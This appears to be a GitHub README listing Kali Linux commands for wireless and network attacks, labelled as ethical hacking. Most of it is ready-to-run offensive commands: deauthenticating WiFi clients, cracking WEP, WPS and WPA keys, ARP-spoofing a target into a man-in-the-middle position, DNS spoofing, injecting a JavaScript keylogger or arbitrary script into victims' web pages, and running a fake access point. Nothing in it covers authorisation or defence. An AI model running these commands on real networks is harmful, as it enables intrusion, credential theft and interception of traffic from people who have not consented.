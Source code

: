 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Helpful Linux Commands

1. zip a file: `tar czvf <filename>`
2. unzip file: `tar xzvf <filename>`
3. network info: `netstat`
4. last user logged in the system: `last`
5. who is logged in: `who` or `w`: 
6. network downloader: `wget <url-link>`
7. change permission: `chmod`
8. send file to a remote computer: `scp /path/to/file username@remoteIP:~/path/to/file`
9. From remote server to local computer: `scp username@remoteIP:~/path/to/file /path/to/file` 
10. View information about your own device: `ifconfig`
11. Veiw information about wireless interfaces: `iwconfig`
12. Change wireless adapter into monitor mode: `iwconfig <InterfaceName> mode monitor`
13. Shows routers: `route -n`
14. Scan connected devices in the network: `nmap -sP 192.168.1.1/24`



## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng <infterface>
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid <TargetMacAddress> --channel <ChannelOfTargetNetwork> --write <FileName> <interface> 
```

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client fromm any network: 

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacAddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid <NetworkMacAddress> --channel <channel> --write <FileName> <interface> 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng <.capfile>
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface <interface>
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <interface>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <interface> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver ____**

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <interface>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Example:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <WordListFile.txt>
```

## Man In The Middle Attack (MITM)

1. Scan the network IP with `zenmap` 
Example: 192.168.1.1/24

2. To map IP addresses in the network and mac addresses `arp -a`
3. `arpspoof -i <interface> -t <clientIP> <gatewayIP>`
4. In another window. Tell the router I am the victim: `aprspoof -i <interface> -t <gatewayIP> <clientIP>`
5. In another window. Allow Linx be the router and forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`

## Man in the Middle Framework (MITMf)

Download the tool `apt-get install mitmf`

```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface>
```
Use wireshark to sniff packets

## DNS Spoofing with MITMf
1. Start the web server: `service apache2 start` (var/www/html)
2. Configure the A records and add the domain you want to change into your IP address (*.___.com = <MyIPAddress>): 
`leafpad /etc/mitmf/mitmf.conf`
3. `mitmf --arp --spoof --gateway <routerIP> --target <targetIP> -i <interface> --dns`

## Capturing Screen of Target with MITMf
Takes screenshots of the target machine 
They are stored into ghe log directory `var/log/mitmf/
(--screenshotter)
```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --screen --interval <seconds>
```

## JS Keylogger with MITMf
Injects javascript key logger into a client's webpage
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --jskeylogger
```

## MITMf code injection
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-payload <"javascriptcode">
```
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-file </path/to/jsfile>
```

## MITMf Upsidedownternet
```bash 
mitmf --arp --spoof --hsts --gateway <routerIP> --target <targetIP> -i <interface> --upsidedownternet
```

**NOTE: if working in real network:**
- Disconnect from virtual network --> Devices --> network --> uncheck (offline) 

## Creating Fake Access Point 
1. Download tool `apt-get intall manatoolkit`
2. `start-nat-simple.sh`
3. Edit the settings: `leafpad /etc/mana-toolkit/hostapd-mana.conf`
- Change interface = <interface> (wlan0)
- ssid = name of the fake network
4. Edit: `leafpad /usr/share/mana-toolkit/run-mana/start-nat/simple.sh`
- upstream = eth0
- phy = <interface> (wlan0)
5. start fake AP: `bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`
6. Test it with phone or other machine, NOT host machine. 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)